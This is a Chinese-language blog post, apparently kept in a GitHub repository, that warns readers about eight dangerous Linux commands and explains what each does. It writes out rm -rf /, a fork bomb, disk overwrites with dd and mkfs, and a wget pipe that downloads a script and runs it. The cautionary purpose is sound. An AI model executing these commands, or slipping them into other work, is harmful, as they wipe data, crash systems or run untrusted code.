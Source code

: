 ```yaml
---
layout: post
title: Linux上最危险的8个命令
---
```


## title: Linux上最危险的8个命令

Linux命令是很强大、高效的。但是有时侯执行一些命令要非常小心，尤其是，当你不知道自己在干什么的情况下。

这篇文件总结了8个可能让人悲剧的10个命令。这些命令在执行之前，一定要再三确认，一不小心就会让你追悔莫及。

### 1) rm -rf

`rm -rf`是删除目录最快的方法，如果使用桌面环境（右键->删除）删除一个零碎目录需要很长时间。但是一个小小的打字错误，有可能对你的系统造成不可恢复的破坏。例如下面这条命令：

```shell
# rm -rf /
```
上面这条命令需要系统管理员权限，这也是不建议使用root用户登录系统的原因之一。

rm常用选项：

* **rm**：删除文件
* **rm -r**：递归的删除目录，包括空目录
* **rm -f**：直接删除文件，不询问
* **rm -rf /**：直接根(root)目录，不询问
* **rm -rf \***：删除当前目录的所有东西，不询问
* **rm -rf**：删除当前目录和子目录，不询问

在执行`rm -rf`一定要小心。为了防止`rm`命令意外删除文件或目录，可以为`rm`创建一个别名`rm -i`，每次都需要确认删除。

### 2) :(){:|:&};:

上面这个命令就是所谓的fork炸弹。执行上面代码会耗尽系统资源而崩溃。更多关于fork炸弹的信息看这里：[Linux：怎么防止fork炸弹攻击](http://blog.topspeedsnail.com/archives/2757)。

### 3) cmd > /dev/sda

cmd代表一个命令，`cmd > /dev/sda`把cmd命令的输出写到了`/dev/sda`块设备上，会导致`/dev/sda`块设备数据的全部丢失。

### 4) mv 目录 /dev/null

上面命令会把目录移动到`/dev/null`。在Linux中， /dev/null是一个特殊的设备文件，有人把它叫做黑洞。

```shell
# mv /home/* /dev/null
```
上面命令相当于：
```shell
# rm -rf /home/*
```
### 5) wget http://怀有恶意脚本的url -O- | sh

上面这条命令在安装软件或系统环境时总用到，它从url下载脚本，下载完成之后自动执行脚本。不要对不信任的url执行上面这个命令。

### 6) mkfs.ext3 /dev/sda

上面命令是格式化命令，执行完之后硬盘数据全部清空。

### 7) > file

`> file`命令会把文件中的数据全部清空。

### 8) dd if=/dev/random of=/dev/sda

上面命令向sda设备中写入随机数据，这是不可恢复的。

如果一个命令你不知道是干嘛的，不要盲目执行，可以先使用man查询一下。如果你有因为执行错误命令而导致系统崩溃的经历，欢迎留言。